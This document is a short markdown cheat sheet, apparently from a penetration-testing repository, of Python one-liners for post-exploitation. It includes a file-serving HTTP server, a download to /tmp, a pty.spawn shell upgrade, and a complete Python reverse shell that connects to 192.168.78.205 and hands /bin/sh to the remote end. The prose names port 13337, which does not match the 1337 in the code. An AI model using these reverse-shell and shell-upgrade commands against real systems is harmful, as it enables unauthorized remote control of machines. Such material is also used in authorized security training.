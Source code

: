 # Cool Python Tricks

Please do not use Python 2 and work using Python 3. However, I have added a few examples of the old ways of doing these operations in Python 2 for your reference only.

## Starting a quick web server to serve some files (useful for post exploitation)

### In Python 2.x
```
python -m SimpleHTTPServer 1337
```

### In Python 3.x
```
python3 -m http.server 1337
```

----
## Pythonic Web Client

### In Python 2.x
```
python -c 'import urllib2; print urllib2.urlopen("http://h4cker.org/web").read()' | tee /tmp/file.html
```

### In Python 3.x
```
python3 -c 'import urllib.request; urllib.request.urlretrieve ("http://h4cker.org/web","/tmp/h4cker.html")'
```

----
## Python Debugger
This imports a Python file and runs the debugger automatically. This is useful for debugging Python-based malware and for post-exploitation.

```
python -m pdb <some_python_file>
```

Refer to this [Python Debugger cheatsheet](https://kapeli.com/cheat_sheets/Python_Debugger.docset/Contents/Resources/Documents/index) if you are not familiar with the Python Debugger.

----

## Shell to Terminal
This is useful after exploitation and getting a shell. It allows you to use Linux commands that require a terminal session (e.g., su, sudo, vi, etc.)

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

----

## Using Python to do a Reverse Shell

You put your IP address (instead of 192.168.78.205) and the port (instead of 13337) below:

```
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("192.168.78.205",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```

